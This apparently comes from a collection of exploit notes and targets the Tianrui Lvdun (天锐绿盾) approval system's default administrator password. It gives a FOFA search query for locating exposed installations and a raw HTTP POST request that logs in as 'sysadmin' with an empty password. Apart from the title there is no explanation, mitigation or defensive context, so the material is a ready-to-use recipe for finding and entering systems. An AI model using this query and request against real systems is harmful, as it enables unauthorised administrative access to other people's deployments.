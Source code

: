 天锐绿盾审批系统默认密码

fofa

body="location.href=location.href+\"trwfe\";"||body="天锐绿盾"

poc

POST /trwfe/user/logon.do HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.2881.43 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 57
Connection: close
lastName=sysadmin&password=&randomCode=&j_language=zh-CN